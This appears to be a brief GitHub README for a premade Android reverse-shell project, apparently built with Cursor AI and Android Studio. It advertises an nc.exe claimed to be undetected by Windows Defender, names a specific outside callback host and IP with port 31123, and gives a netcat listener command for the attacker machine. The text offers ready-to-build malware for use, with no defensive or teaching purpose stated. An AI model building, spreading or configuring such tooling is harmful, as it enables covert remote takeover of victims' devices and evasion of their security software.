 # android-studio-reverse-shell-premade
undetected nc.exe by windef
this zip file has a project vergin one and vpn reverse shell made with cursor ai and android studio just build directly
(note) edit CallbackService.kt for portforwardingpdkad-31123.portmap.host:31123
or ip 193.161.193.99 port 31123
attacker machine nc -lvp 4545
